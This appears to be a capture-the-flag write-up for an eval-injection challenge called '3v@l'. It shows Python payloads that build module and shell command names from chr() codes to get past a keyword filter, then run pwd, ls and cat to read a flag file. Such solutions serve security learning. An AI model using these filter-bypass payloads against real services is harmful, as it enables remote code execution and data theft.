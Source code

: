 # 3v@l

> Unfortunately, they are using an eval function to calculate the loan. 

As it's written in the description, the server evals the input.
For example, when I input `7*7`, it returns `49`.

When I input `__import__('os').popen('ls').read()`, I got the error below.
So, the server seems to do some validations to prevent remote code execution.

![3val_1](./3val_1.png)

When I tried to dynamically construct `os` and `ls`, it works.
```
__import__("".join([chr(111), chr(115)])).popen("".join([chr(108), chr(115)])).read()
```

![3val_2](./3val_2.png)

Since I found the way to execute commands, I can read the flag.
```
# pwd
__import__("".join([chr(111), chr(115)])).popen("".join([chr(112), chr(119), chr(100)])).read()
# Result: /app

# ls ..
__import__("".join([chr(111), chr(115)])).popen("".join([chr(108), chr(115), chr(32), chr(46), chr(46)])).read()
# Result: app bin boot challenge dev etc flag.txt home lib lib32 lib64 libx32 media mnt opt proc root run sbin srv sys tmp usr var 

# cat ../flag.txt
__import__("".join([chr(111), chr(115)])).popen("".join([chr(99), chr(97), chr(116), chr(32), chr(46), chr(46), chr(47), chr(102), chr(108), chr(97), chr(103), chr(46), chr(116), chr(120), chr(116)])).read()
```
